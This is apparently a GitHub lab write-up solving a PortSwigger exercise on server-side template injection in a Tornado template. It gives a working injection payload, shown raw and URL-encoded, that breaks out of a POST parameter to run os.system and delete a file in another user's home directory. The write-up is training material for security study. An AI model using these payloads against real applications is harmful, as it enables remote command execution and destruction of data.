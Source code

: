 # Basic server-side template injection (code context)

## This lab is vulnerable to [server-side template injection](https://portswigger.net/web-security/server-side-template-injection) due to the way it unsafely uses a Tornado template. To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

## You can log in to your own account using the following credentials: `wiener:peter`

### HINT: {% import os %} {{os.system('rm /home/carlos/morale.txt')

### in Django templates `{{ }}` are used to evaluate [variables](https://docs.djangoproject.com/en/1.9/ref/templates/language/#variables) and  ### `{% %}` are Django templates [tags](https://docs.djangoproject.com/en/1.9/ref/templates/language/#tags) for commands such as `block`, `if`, `for`, `with`, `comment`, etc.

### in torando template {% apply linkify %}{{name}} said: {{message}}{% end %}

```python
import os
cmd = 'rm /home/kali/Downloads/burp/new_test.txt'
os.system(cmd)
```

above code will delete new_text.txt file from system

### step1

login using into account
observe preferred name functionality

### step2

comment anything into any post you will see name and comment

![screenshot](./images/lab2_prefered_name.png)

code of the above image is

`blog-post-author-display=user.name&csrf=C2REwa5JbF9LA0ruepT0KLstRUHBlmdP`

### step2

if preferred name change name from first name it will be

![screenshot](./images/lab2_prefered_name_first_name.png)

### step3

if preferred name change name from nick name it will be

![screenshot](./images/lab2_prefered_name_nickname.png)

### step4

`blog-post-author-display=user.name&csrf=C2REwa5JbF9LA0ruepT0KLstRUHBlmdP
modify this line
`blog-post-author-display=user.name}}{{7\*\*&csrf=C2REwa5JbF9LA0ruepT0KLstRUHBlmdP

![screenshot](./images/lab2_modify_code_into_repeter.png)

### step4

`blog-post-author-display=user.name}}{{7**&csrf=C2REwa5JbF9LA0ruepT0KLstRUHBlmdP
modify `
{% import os %} {{os.system('rm /home/carlos/morale.txt')
`blog-post-author-display=user.name}}{% import os %}{{os.system('rm /home/carlos/morale.txt')&csrf=C2REwa5JbF9LA0ruepT0KLstRUHBlmdP

url encoded ctrl u
`blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('rm+/home/carlos/morale.txt')&csrf=C2REwa5JbF9LA0ruepT0KLstRUHBlmdP`

and reload blog post

![screenshot](./images/lab2_blog_page_with_error_and_solve_lab.png)
